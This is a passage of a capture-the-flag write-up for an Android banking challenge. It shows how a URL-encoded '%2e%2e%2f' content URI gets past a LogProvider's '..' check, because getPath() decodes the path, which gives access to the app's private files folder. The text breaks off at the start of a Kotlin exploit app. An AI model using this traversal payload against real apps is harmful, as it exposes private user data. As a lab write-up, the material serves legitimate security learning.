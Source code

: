 ### Android Version

I got permission issues with `FLAG_GRANT_READ_URI_PERMISSION` etc because I was on android 36.

I downgraded my android emulator to android 31 and it worked.

### Bypass Filter

There was another issue: `LogProvider` will block `..` and there isn't anything useful in `cache` folder.

```java
if (!uri.toString().contains("..")) {
    File file = new File(getContext().getCacheDir(), uri.getPath());
    if (file.exists()) {
        return ParcelFileDescriptor.open(file, 805306368);
    }
    throw new FileNotFoundException("Log doesn't exists!");
}
```

I got stuck again until I realised that `getPath()` will actually url decode the path, so we could just do this.

```java
extra.setData("content://com.sekai.bank.logprovider/%2e%2e%2ffiles".toUri())
```

### Folders

I was again stuck for extended period of time because I forgot that `LogProvider` will only list files.

```java
for (File file : listFiles) {
	if (file.isFile()) {
		matrixCursor.addRow(new Object[]{Integer.valueOf(i), file.getName(), Long.valueOf(file.length()), file.getAbsolutePath()});
		i++;
	}
}
```

![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1755440361/20250817101921293.png/ad0690e857878f080182ccb5768da89e.png)

Stupid mistake tho

## Solution

### The heist

1. Make Sekai Bank grant us permissions to `../files/delayed_transactions`.

```kotlin
package com.sekai.heist

import android.content.ComponentName
import android.content.Intent
import android.os.Bundle
import androidx.activity.ComponentActivity
import androidx.activity.compose.setContent
import androidx.activity.enableEdgeToEdge
import androidx.compose.foundation.layout.fillMaxSize
import androidx.compose.foundation.layout.padding
import androidx.compose.material3.Scaffold
import androidx.compose.material3.Text
import androidx.compose.runtime.Composable
import androidx.compose.ui.Modifier
```